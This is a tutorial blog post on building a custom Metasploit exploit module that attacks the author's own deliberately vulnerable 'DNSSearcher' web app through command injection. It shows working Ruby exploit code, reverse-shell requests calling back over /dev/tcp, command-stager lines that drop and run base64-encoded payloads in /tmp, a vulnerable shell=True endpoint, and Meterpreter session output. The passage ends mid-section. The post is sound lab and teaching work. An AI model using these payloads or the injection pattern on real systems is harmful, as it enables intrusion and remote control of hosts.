


Making a Custom Metasploit Module
Published 03.08.2023 , Last Edited 07.08.2023Welcome to part three of service-to-shell. In this post we’ll cover the basics of exploiting DNSSearcher by using Metasploit, along with command stagers, to get a full Meterpreter session on the target. I’ll do my best to cover best practices - if you have a similarly vulnerable webapp, I hope this is a useful tutorial, or something interesting to read.
Research
How to get a Metasploit environment
If you’re running on a machine where you want to install Metasploit (or where it’s already installed), this shouldn’t be a problem.
Based on this video by Hak5 titled “Making your first AUX Module”, you can just add modules in the correct Metasploit directory (Should be ~/.msf4).
I don’t really want to install Metasploit, clutter my install with a bunch of ruby gems, or even push these contributions upstream.
For these reasons I’ll be using the Dockerfile within the metasploit-framework repo and just rebuild the Docker image whenever I make changes (if it’s even necessary - we’ll see).
I’ll start by cloning the metasploit-framework repo with a depth of 1 - we don’t need any past commits here (and by itself, a depth of 1 was 60.79MiB):
1git clone git@github.com:rapid7/metasploit-framework.git --depth 1
Docker
From here I checked out the docker/README.md, which suggests using docker/bin/msfconsole for running the Docker image. It’s just a wrapper for docker-compose (which for me is docker compose), but it saves me from typing a docker command. After modifying the docker/bin/msfconsole to use docker compose, I ran these commands:
1chmod +x ./docker/bin/msfconsole
2./docker/bin/msfconsole --rebuild
3./docker/bin/msfconsole
It took ~160 seconds for the Docker image to build, but then… an error (provided below for if/when you hit it - this probably won’t happen if you’re running as root):
1Rails Error: Unable to access log file. Please ensure that /home/msf/.msf4/logs/production.log exists and is writable (i.e. make it writable for user and group: chmod 0664 /home/msf/.msf4/logs/production.log). The log level has been raised to WARN and the output directed to STDERR until the problem is fixed.
2/usr/local/lib/ruby/3.0.0/fileutils.rb:253:in `mkdir': Permission denied @ dir_s_mkdir - /home/msf/.msf4/logs (Errno::EACCES)
I checked the Dockerfile, but saw no references to /home/msf/.msf4/. Looking inside the docker-compose.yml file though, we see:
1services:
2 ms:
3 image: metasploitframework/metasploit-framework:latest
4 environment:
5 DATABASE_URL: postgres://postgres@db:5432/msf?pool=200&timeout=5
6 links:
7 - db
8 ports:
9 - 4444:4444
10 volumes:
11 - $HOME/.msf4:/home/msf/.msf4
Okay, so this is definitely a Docker permissions error, I ran into a ton of those while setting up my homelab. The solution I had was to use the UID and GID variables for the Docker images I was working with, and ensure they matched the NFS share owner. In this case I checked the GitHub and saw that the solution is:
1sudo chown -R $(whoami):$(whoami) /home/$(whoami)/.msf4
2./docker/bin/msfconsole
At this point I have a .msf4 directory mapped to $HOME/.msf4 and a Docker container that drops me into a Metasploit console.
To work with my workflow, it’s preferable if the container’s /home/msf/.msf4 directory was mapped to my service-to-shell/msf4 folder.
I’ll slightly modify the docker-compose with the correct filepath and try again:
1# rest of file unchanged
2 volumes:
3 - $HOME/Documents/git/service-to-shell/msf4:/home/msf/.msf4
4# rest of file unchanged
I’ll test this out with a simple file. On my host machine I run touch /home/connor/Documents/git/service-to-shell/msf4/test.txt, and then in the metasploit-framework container I run ls /home/msf/.msf4 - here’s the output:
1msf6 > ls /home/msf/.msf4
2[*] exec: ls /home/msf/.msf4
3
4bootsnap_cache data local logos logs loot modules plugins store test.txt
5msf6 >
Fantastic - now any custom modules I make are also available in the service-to-shell repo, easy to share and easy for anyone else to use.
Based on the Hak5 video above, I should be able to just drop a module in a folder like .msf4/modules/custom and load everything from there (in a running console) with loadpath /home/msf/.msf4.
Let’s test it out with a sample module.
Writing a module
Before writing a module it’s best to ask “What is my goal with this module?” I want to exploit DNSSearcher through Metasploit.
Finding the right module type
DNSSearcher is exploitable through a GET request with command injection. I checked the Metasploit docs on “Developing Modules and found this:
If you’ve found a way to execute a command on a target, and you’d like the [sic] leverage that ability to execute a command into a meterpreter session, command stagers are for you. — Metasploit Documentation1
A command module is exactly what I need.
The example case they’ve included is actually command injection through a webapp that performs ping requests - pretty similar to DNSSearcher.
How to write a command stager
I initially started by following the documentation, but I found that the documentation was confusing.
It had chunks for execute_cmdstager and execute_cmd while working off bits and pieces of other scripts.
The execute_command module in the documentation is more complex than it has to be (We don’t need to reference the datastore, as an example), and I think it’s incorrect in some places (I was getting an undefined error when calling send_request_cgi until I imported Msf::Exploit::Remote::HttpClient).
Instead of walking you through that documentation, I’ll attempt to make something better below. I’m providing working code instead of sample code, and I’ll cover issues I had later in this doc - bear with me, I’ve never written Ruby before:
Imports
We need to start at the top of the module. Every exploit module starts with class MetasploitModule < Msf::Exploit::Remote - this is creating a subclass of Msf::Exploit::Remote named MetasploitModule. I think it’s interesting that the subclass name doesn’t need to be unique.
Next are the imports. We actually don’t need to import Msf::Exploit::CmdStager since we’re not doing a staged payload to begin with - simply importing Msf::Exploit::Remote::HttpClient is fine. After this, we can set the ranking. Based on the Exploit Ranking documentation, even though this module does not crash the service, there is no check written yet, so we’ll call it good for now:
1class MetasploitModule < Msf::Exploit::Remote
2 Rank = GoodRanking
3 include Msf::Exploit::Remote::HttpClient
Defining metadata
The next section of the Module is for defining metadata. This includes Author information, Exploit information, and valid Target information. Anything I don’t think is self-explanatory has comments
1 def initialize(info = {}) # I don't know why calls are made to update_info instead of filling this out, but every module is like this
2 super( # passes this to Msf::Exploit::Remote's update_info?
3 update_info(
4 info,
5 'Name' => 'Command Injection against DNSSearcher v0.1.0 Using Unix Command',
6 'Description' => 'This exploits a command injection aganst dnssearcher using the command stager.' ,
7 'License' => MSF_LICENSE,
8 'Author' => [ 'Connor Shade' ],
9 'References' => [ [ 'URL', 'https://connorshade.com/service-to-shell/custom-metasploit/' ] ],
10 'Platform' => 'linux', # used for determining compatibility
11 # For webapps, platform is typically the language of the webapp, I'm unsure since this is command injection on the webserver though
12 'Targets' => [
13 [
14 'Unix Command',
15 {
16 'Platform' => 'unix',
17 'Arch' => ARCH_CMD,
18 'Type' => :unix_cmd, # type of exploit
19 'DefaultOptions' => {
20 'PAYLOAD' => 'cmd/unix/reverse_bash',
21 'RPORT' => 8000,
22 }
23 }
24 ],
25 ],
26 'Payload' => { 'BadChars' => "\x00" }, # Characters that cannot exist in the payload?
27 'Privileged' => true, # Whether or not this requires or gives privileged access https://github.com/rapid7/metasploit-framework/blob/9e7960fd9ffe5cc2866e047aa75193d9858603e8/modules/exploits/example_webapp.rb#L61
28 'DisclosureDate' => '2023-08-04',
29 'DefaultTarget' => 0, # 0th item in Targets https://github.com/rapid7/metasploit-framework/blob/9e7960fd9ffe5cc2866e047aa75193d9858603e8/modules/exploits/example.rb#L61C15-L61C15
30 'Notes' => { # Required for new modules https://docs.metasploit.com/docs/development/developing-modules/module-metadata/definition-of-module-reliability-side-effects-and-stability.html
31 'Stability' => [CRASH_SAFE],
32 'Reliability' => [REPEATABLE_SESSION],
33 'SideEffects' => [IOC_IN_LOGS]
34 }
35 )
36 )
37 end
I actually did check every other module in Metasploit, none defined info values in the call to initialize:

Filters
The example includes some characters that must be filtered out, and I’m glad it shows me the Ruby way to do things.
The chars that must be filtered for this exploit are a little different than the example, but the idea is the same.
Anything that might be treated unusually before hitting /bin/bash needs to be escaped - mostly &.
One interesting thing about this is gsub! modifies in place while gsub returns - I missed that at first.
1 def filter_bad_chars(cmd)
2 cmd.gsub!(/&/, '%26')
3 cmd.gsub!(/ /, '%20')
4 cmd.gsub!(/'/, '%27')
5 end
Throwing the exploit
This chunk here defines how the command is sent to the server (in this case, via get parameters to the /dns endpoint) and defines the exploit function. This is pretty simple - send_request_cgi is used to send the GET request (I belive it already knows what RHOST is), while exploit runs when you call run within msfconsole. execute_command can also be used by a stager:
By including Msf::Exploit::CmdStager you are given access to a method called execute_cmdstager. execute_cmdstager makes a list of required commands to encode, upload, save, decode, and execute your payload, then uses the execute_command method you defined earlier to run each command on the target. — Metasploit Documentation1
1 def execute_command(cmd, _opts = {}) # This just seems to be the default signature
2 send_request_cgi({ # No parsing required
3 'method' => 'GET',
4 'uri' => '/dns',
5 'encode_params' => false, # Encoding is already done and necessary chars are replaced with filter_bad_chars
6 'vars_get' => { # GET parameters
7 'domainname' => "bing.com%20%26%26%20#{filter_bad_chars(cmd)}", # The only one is domainname, which is the injectable param
8 }
9 })
10 end
11
12 def exploit
13 print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
14 execute_command(payload.encoded)
15 end
16 end
Putting that all together, we have a fully functional module that can throw an exploit and get a shell.
Here is a permalink to dnssearcher.rb at this state.
Next I’ll cover some of the testing I had to do to get to this state.
Testing the module
This is the work I went through to get the working exploit above. You may want to skip this section and just come back to it if you have issues making your own module.
Module won’t load
My first issue was that my module wasn’t loading. I stared with a very basic version of the example from the documentation, something like:
1include Msf::Exploit::CmdStager
2'Targets' => [
3 [
4 'Unix Command',
5 {
6 'Platform' => 'unix',
7 'Arch' => ARCH_CMD,
8 'Type' => :unix_cmd,
9 'DefaultOptions' => {
10 'PAYLOAD' => 'cmd/unix/python/meterpreter/reverse_tcp',
11 'RPORT' => 9000
12 }
13 }
14 ],
15 [
16 'Linux (Dropper)',
17 {
18 'Platform' => 'linux',
19 'Arch' => [ARCH_X64],
20 'DefaultOptions' => { 'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp' },
21 'Type' => :linux_dropper
22 }
23 ]]
24
25 def execute_command(cmd, _opts = {})
26 populate_values if @sid.nil? || @token.nil?
27 uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'
28
29 send_request_cgi({
30 'method' => 'POST',
31 'uri' => normalize_uri(uri),
32 'cookie' => 'sid=' + @sid,
33 'ctype' => 'application/x-www-form-urlencoded',
34 'encode_params' => true,
35 'vars_post' => {
36 'token' => @token,
37 'text' => cmd,
38 'hhook' => 'exec',
39 'sid' => @sid
40 }
41 })
42 end
43
44 def exploit
45 print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
46 case target['Type']
47 when :unix_cmd
48 execute_command(payload.encoded)
49 when :linux_dropper
50 execute_cmdstager
51 end
I was trying to call loadpath /home/msf/.msf4/modules/exploits/custom, loadpath /home/msf/.msf4/modules/exploits, and loadpath /home/msf/.msf4/modules/exploits/custom, but none of them were working.
Nothing showed up in search and no modules were marked as loaded.
Fortunatly, metasploit dumps logs to the .msf4 directory, so I had easy access to them on my host machine:
[08/05/2023 01:57:05] [e(0)] core: /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb failed to load - Msf::Modules::Error Failed to load module (custom/dnssearcher from /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb) due to invalid module class name (must be MetasploitModule)
[08/05/2023 01:57:05] [w(0)] core: The following modules could not be loaded!
[08/05/2023 01:57:05] [w(0)] core: /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb
I should have started by copying the structure of a known-good module, or by copying the template from further down in the documentation. It was my mistake thinking that following a “How to” guide from top down would not include the class name at the top. The actual problem was that my code didn’t start with the class definition:
1class MetasploitModule < Msf::Exploit::Remote
I tried again and got this error:
[08/05/2023 02:17:13] [e(0)] core: /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb failed to load - SyntaxError /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb:65: syntax error, unexpected end-of-input, expecting `end'
[08/05/2023 02:17:13] [w(0)] core: The following modules could not be loaded!
[08/05/2023 02:17:13] [w(0)] core: /home/msf/.msf4/modules/exploits/custom/dnssearcher.rb
Simple solution - put an end at the end to end the class definition.
After those two fixes, the module would load.
Import error
Once I got dnssearcher.rb importing, I set the options and tried to throw it.
I got a 141,364 character error message ending with “Did you mean? send_redirect”.
The top of the error message had:
[08/05/2023 02:21:26] [e(0)] core: Exploit failed (custom/dnssearcher): NoMethodError undefined method `send_request_cgi'
I fixed this error by looking at other implementations of send_request_cgi (again, through RegEx searches over the metasploit-framework codebase) and seeing that they had this import at the top:
1include Msf::Exploit::Remote::HttpClient
I could actually remove the include Msf::Exploit::CmdStager import - I don’t need it for this phase.
Weird errors in the application
The last issue I ran into, once the exploit was running, was getting my exploit to not error out on DNSSearcher. Watching the DNSSearcher log and watching Wireshark as I threw the exploit really helped with this section.
I started out with the filter_bad_chars from the documentation - I should have known that this would have some issues due to my netcat based manual exploitation of the server in vulnerable-webapp, but I didn’t think to modify the filters yet.
1def filter_bad_chars(cmd)
2 cmd.gsub!(/chmod \+x/, 'chmod 777')
3 cmd.gsub!(/;/, ' %26%26 ')
4 cmd.gsub!(/ /, '+')
5end
I was also using + as a space character in my request (no impact, but I tend to use %20 to be explicit and not rely on conversions):
1def execute_command(cmd, _opts = {})
2 send_request_cgi({
3 'method' => 'GET',
4 'uri' => '/dns',
5 'encode_params' => false,
6 'vars_get' => {
7 'domainname' => "bing.com+%26%26+#{filter_bad_chars(cmd)}",
8 }
9 })
10end
Here is what the HTTP request looked like over the wire:
1GET /dns?domainname=bing.com+%26%26+bash+-c+'0<&83-+%26%26+exec+83<>/dev/tcp/172.18.0.3/4444+%26%26+sh+<&83+>&83+2>&83' HTTP/1.1
Here is the logs from DNSSearcher:
INFO:root:DNS lookup for bing.com && bash -c '0<
INFO:root:Response status code: 2
WARNING:root:stderr: /bin/sh: 1: Syntax error: Unterminated quoted string
INFO: 172.17.0.1:33610 - "GET /dns?domainname=bing.com+%26%26+bash+-c+'0<&138-+%26%26+exec+138<>/dev/tcp/172.18.0.3/4444+%26%26+sh+<&138+>&138+2>&138' HTTP/1.1" 200 OK
From these two data sources we see that some characters, like &, aren’t being escaped.
Since & is a special character in HTTP requests (specifies additional parameters), we need to escape it.
I modified the filter_bad_chars function a bit:
1def filter_bad_chars(cmd)
2 cmd.gsub!(/&/, '%26')
3 cmd.gsub!(/ /, '+')
4 end
After making this change, my exploit never returned.
Couldn’t get a callback
The exploit never returning is a hint - so are the logs that are printed (or not printed). When I threw the exploit, the only log I saw from DNSSearcher was:
INFO:root:DNS lookup for bing.com && bash -c '0<&38-;exec 38<>/dev/tcp/172.18.0.3/4444;sh <&38 >&38 2>&38'
Taking a quick look at the code, we can see that there are several more log statements that should have been hit:
1@app.get("/dns")
2def dns(domainname: str):
3 logger.info(f"DNS lookup for {domainname}")
4 ret = subprocess.run(f"nslookup {domainname}", shell=True, capture_output=True)
5 logger.info(f"Response status code: {ret.returncode}")
6 if ret.returncode:
7 logger.warn(f"stderr: {ret.stderr.decode('utf-8')}")
8 return Response(content=ret.stdout.decode("utf-8"), media_type="text/plain")
The code looked like it was hanging between my “DNS lookup for {domainname}” and “Response status code” log statements - the only thing that could cause a hang is an issue with subprocess.run.
I let the application sit for a bit and more logs printed out (first line is kept from above, it did not print twice):
INFO:root:DNS lookup for bing.com && bash -c '0<&38-;exec 38<>/dev/tcp/172.18.0.3/4444;sh <&38 >&38 2>&38'
INFO:root:Response status code: 1
WARNING:root:stderr: bash: redirection error: cannot duplicate fd: Bad file descriptor
bash: line 1: 38: Bad file descriptor
bash: connect: Connection timed out
bash: line 1: /dev/tcp/172.18.0.3/4444: Connection timed out
bash: line 1: 38: Bad file descriptor
We have code execution! We just can’t hit the Metasploit server. Thinking about it, that makes sense. I have a Docker-compose file that starts the Metasploit Framework and a separate Docker statement that starts DNSSearcher. They aren’t on the same Docker network, so they can’t easily talk to each other.
From running Wireshark later (while trying to debug echo) it looks like the path a packet takes is 172.18.0.3 -> 172.18.0.1 -> HOST (192.168.1.141) -> 172.17.0.1 -> 172.17.0.2.
The solution is in how I’m calling the exploit - I set RHOSTS 192.168.1.141 - my host IP.
I need to set LHOST to my host IP:
1Module options (exploit/custom/dnssearcher):
2
3 Name Current Setting Required Description
4 ---- --------------- -------- -----------
5 RHOSTS 192.168.1.141 yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
6 RPORT 8000 yes The target port (TCP)
7
8Payload options (cmd/unix/reverse_bash):
9
10 Name Current Setting Required Description
11 ---- --------------- -------- -----------
12 LHOST 192.168.1.141 yes The listen address (an interface may be specified)
13 LPORT 4444 yes The listen port
Setting LHOST to my host IP, which my Docker container can’t bind to, leads to this:
1[-] Handler failed to bind to 192.168.1.141:4444:- -
2[*] Started reverse TCP handler on 0.0.0.0:4444
3[*] Executing Unix Command for cmd/unix/reverse_bash
4[*] Command shell session 1 opened (172.18.0.3:4444 -> 172.18.0.1:57606) at 2023-08-06 01:51:46 +0000
I get an error that the Handler can’t bind to 192.168.1.141, but that’s fine because it binds to 0.0.0.0 and port 4444 is forwarded from my host to the docker container. Afterwards, I get a shell.
Some Improvements
There are still some more areas of the module that I can improve on:
- Being able to get a meterpreter session would be nice - there might be more characters to filter out than a simple bash reverse TCP connection.
- Getting command stagers would improve flexibility with the module
- Adding a check would mean that this module can be Excellent ranking
- I might improve the Metasploit documentation regarding creating a custom module to flow better
Adding a check
It’s important to know if the service is actually vulnerable before attempting to throw an Exploit.
Metasploit has a method for determining this - it’s a check method.
Checks can do a variety of things, and return a lot of info - if the service is not vulnerable, appears vulnerable, or is able to be exploited.
I know that the DNSSearcher v0.1.0 code is vulnerable, but we can actually try to run id and see what we get.
I’m using the Metasploit documentation on How to write a Check Method along with the example_webapp.rb file for a sample check.
I think we can do three checks:
- The
idcommand returns some result in the body - The banner has
server: dnssearcher v0.1.0- Match on the version - Also match on the server banner generically
For the first check, on the id, I just had to use a send_request_cgi command injection and look for the proper response:
1def check
2 res = send_request_cgi({
3 'method' => 'GET',
4 'uri' => '/dns',
5 'encode_params' => false,
6 'vars_get' => {
7 'domainname' => "bing.com+%26%26id",
8 }
9 })
10 if res.nil? # check for no response
11 return CheckCode::Unknown("#{peer} - Could not connect to web service - no response")
12 end
13 if res.body.include? "uid=0" # check for uid
14 return CheckCode::Vulnerable("#{peer} - Successfully exploited with `id` command")
15 end
For the next two sections, since they checked against the Banner, I had to figure out how to find the banner of an HTTP request.
I checked the documentation and found this page, which mentions you can do res.to_s to get the full response content:
1 # expected banner includes `server: dnssearcher vx.y.z
2 %r{sever: dnssearcher v(?<version>\d{1,2}\.\d{1,2}\.\d{1,2})</td>} =~ res.to_s # to_s converts the entire response to a string?
3 if version && Rex::Version.new(version) <= Rex::Version.new('0.1.0')
4 return CheckCode::Appears("#{peer} - Vulnerable Version Detected: #{version}")
5 end
6 if res.to_s.include? "server: dnssearcher"
7 return CheckCode::Detected("#{peer} - Unknown version of DNSSearcher")
8 end
9 return CheckCode::Unknown("#{peer} - Failed to detect DNSSearcher")
10end
The two previous code blocks can be concatenated to form the whole check method (The file with this addition is visible here), which looks like this when running inside Metasploit:
1msf6 exploit(custom/dnssearcher) > check
2[+] 192.168.1.141:8000 - The target is vulnerable. 192.168.1.141:8000 - Successfully exploited with `id` command
I can also add the Autocheck mixin by adding this section of code just under the Module definition:
1 prepend Msf::Exploit::Remote::AutoCheck
This means that when I fail to start DNSSearcher, I’m alerted that there is no response instead of trying to debug a failed exploit:
1[-] Handler failed to bind to 192.168.1.141:4444:- -
2[*] Started reverse TCP handler on 0.0.0.0:4444
3[*] Running automatic check ("set AutoCheck false" to disable)
4[-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. 192.168.1.141:8000 - Could not connect to web service - no response "set ForceExploit true" to override check result.
5[*] Exploit completed, but no session was created.
Adding command stager
The next addition I want is a command stager. Command stagers are a way to drop and execute a payload onto a device through (in this case) command injection. This is actually what I started writing in the beginning, but I wanted to have working exploit code before trying to do a command stager.
Using the documentation, it looks like I have to:
- Add the
Msf::Exploit::CmdStagermixin - Add associated metadata to the
update_infofunction call:
CmdStagerFlavorat the top level- Dropper data under
Targets
- Update the
exploitsection to selectively call theexecute_commandorexecute_cmdstageras needed
I also had to test several Flavors, which are just the method used for staging, to see what works on my DNSSearcher.
By getting a session on DNSSearcher through metasploit and running which DROPPER, where DROPPER was one of [echo, printf, curl, wget, lwp-request], I found that the echo and printf are available. I know that bash was available since I’ve been using it in the session.
I updated the code and was now able to run a Dropper, but the exploit did not generate a session - here is me attempting to use the Bourne stager with a meterpreter reverse tcp payload:
1msf6 exploit(custom/dnssearcher) > set CMDSTAGER::FLAVOR bourne
2CMDSTAGER::FLAVOR => bourne
3msf6 exploit(custom/dnssearcher) > run
4
5[-] Handler failed to bind to 192.168.1.141:4444:- -
6[*] Started reverse TCP handler on 0.0.0.0:4444
7[*] Running automatic check ("set AutoCheck false" to disable)
8[+] The target is vulnerable. 192.168.1.141:8000 - Successfully exploited with `id` command
9[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
10[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAJwEAAAAAAADWAQAAAAAAAAAQAAAAAAAASDHJSIHp7////0iNBe////9Iu8Ve2p9ZHPyJSDFYJ0gt+P///+L09KGwlgGFSpmN1wzSaNWWq4QEsJgDE/nBQJ6izjMWvdCVNPPHwHb+1q9fhJBcVHlJvWWSCBGl/onUAho3WJGtwUy4sI8DdtbRyluD19zchayMoRPrQUuWqp002vVcVHVujW8skFxFpdaN2xrmnnbA0a9fhZBcQpb3n1Hf19zchGQ6uNqfWRz8iQ==>>'/tmp/ZpSQY.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/KyfYC' < '/tmp/ZpSQY.b64' ; chmod +x '/tmp/KyfYC' ; '/tmp/KyfYC' ; rm -f '/tmp/KyfYC' ; rm -f '/tmp/ZpSQY.b64'"]
11[*] Command Stager progress - 100.00% done (883/883 bytes)
12[*] Exploit completed, but no session was created.
Here are the DNSSearcher logs for attempting to throw this exploit:
INFO: 172.17.0.1:33694 - "GET /dns?domainname=bing.com+%26%26id HTTP/1.1" 200 OK
INFO:root:DNS lookup for bing.com && echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAJwEAAAAAAADWAQAAAAAAAAAQAAAAAAAASDHJSIHp7////0iNBe////9Iu8Ve2p9ZHPyJSDFYJ0gt P/// L09KGwlgGFSpmN1wzSaNWWq4QEsJgDE/nBQJ6izjMWvdCVNPPHwHb 1q9fhJBcVHlJvWWSCBGl/onUAho3WJGtwUy4sI8DdtbRyluD19zchayMoRPrQUuWqp002vVcVHVujW8skFxFpdaN2xrmnnbA0a9fhZBcQpb3n1Hf19zchGQ6uNqfWRz8iQ==>>'/tmp/ZpSQY.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/KyfYC' < '/tmp/ZpSQY.b64' ; chmod x '/tmp/KyfYC' ; '/tmp/KyfYC' ; rm -f '/tmp/KyfYC' ; rm -f '/tmp/ZpSQY.b64'
INFO:root:Response status code: 0
INFO: 172.17.0.1:33696 - "GET /dns?domainname=bing.com+%26%26+echo+-n+f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAJwEAAAAAAADWAQAAAAAAAAAQAAAAAAAASDHJSIHp7////0iNBe////9Iu8Ve2p9ZHPyJSDFYJ0gt+P///+L09KGwlgGFSpmN1wzSaNWWq4QEsJgDE/nBQJ6izjMWvdCVNPPHwHb+1q9fhJBcVHlJvWWSCBGl/onUAho3WJGtwUy4sI8DdtbRyluD19zchayMoRPrQUuWqp002vVcVHVujW8skFxFpdaN2xrmnnbA0a9fhZBcQpb3n1Hf19zchGQ6uNqfWRz8iQ==>>'/tmp/ZpSQY.b64'+;+((which+base64+>%262+%26%26+base64+-d+-)+||+(which+base64+>%262+%26%26+base64+--decode+-)+||+(which+openssl+>%262+%26%26+openssl+enc+-d+-A+-base64+-in+/dev/stdin)+||+(which+python+>%262+%26%26+python+-c+'import+sys,+base64;+print+base64.standard_b64decode(sys.stdin.read());')+||+(which+perl+>%262+%26%26+perl+-MMIME::Base64+-ne+'print+decode_base64($_)'))+2>+/dev/null+>+'/tmp/KyfYC'+<+'/tmp/ZpSQY.b64'+;+chmod++x+'/tmp/KyfYC'+;+'/tmp/KyfYC'+;+rm+-f+'/tmp/KyfYC'+;+rm+-f+'/tmp/ZpSQY.b64' HTTP/1.1" 200 OK
I’ve included the full logs above because I think the way they’re represented is telling: There are spaces in the base64 encoding.
A standard base64 alphabet has two special characters: + and / - the slash is being handled properly, but the plus is being converted to a space by the web server.
This is a good lesson: Encode your strings, don’t rely on web server behavior.
I typically use %20 for spaces instead of + (See my vulnerable-webapp post), but used + for this exploit.
After modifying the filter_bad_chars function to substitute + for %2B, I was able to successfully use the dropper to deploy Meterpreter:
1msf6 exploit(custom/dnssearcher) > run
2
3[-] Handler failed to bind to 192.168.1.141:4444:- -
4[*] Started reverse TCP handler on 0.0.0.0:4444
5[*] Running automatic check ("set AutoCheck false" to disable)
6[+] The target is vulnerable. 192.168.1.141:8000 - Successfully exploited with `id` command
7[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
8[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAJwEAAAAAAADWAQAAAAAAAAAQAAAAAAAASDHJSIHp7////0iNBe////9Iu27ruDkjkrB8SDFYJ0gt+P///+L0XxTSMHsLBmwmYm50ElvaXi+x0j55nbU06yvAaEmY8SU+gZFhuviyIwTq5jYm2jW8FtDwrmsrsnx/t3iRIh/hNOcN0il5+JokYe7hcaZSyVknFHFNO8XaXzaBuFMm2jmbJtpONibL6SMmbnhA5PiMJATq5zYmzNoCNOS9caZSyJGRDbg5I5KwfA==>>'/tmp/sWeUP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/VKrbn' < '/tmp/sWeUP.b64' ; chmod +x '/tmp/VKrbn' ; '/tmp/VKrbn' ; rm -f '/tmp/VKrbn' ; rm -f '/tmp/sWeUP.b64'"]
9[*] Transmitting intermediate stager...(126 bytes)
10[*] Sending stage (3045380 bytes) to 172.18.0.1
11[*] Meterpreter session 1 opened (172.18.0.3:4444 -> 172.18.0.1:57650) at 2023-08-07 14:18:00 +0000
12[*] Command Stager progress - 100.00% done (883/883 bytes)
13
14meterpreter >
15meterpreter > ls
16Listing: /app
17=============
18
19Mode Size Type Last modified Name
20---- ---- ---- ------------- ----
21040755/rwxr-xr-x 40 dir 2023-08-07 02:07:41 +0000 __pycache__
22100644/rw-r--r-- 1811 fil 2023-08-04 12:59:59 +0000 main.py
23100644/rw-r--r-- 12 fil 2023-08-04 12:59:59 +0000 requirements.txt
This was done with the bourne Flavor, but I also want the printf and echo flavors to work. Running either of them says “Exploit completed, but no session was created.”
Getting the other stagers (echo, printf) working
How can I get the other stagers working?
My first thought is to enable some logging.
I run set verbose true within Metasploit, verify I’m using one of the failing stagers with set CMDSTAGER::FLAVOR echo, and run:
1[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
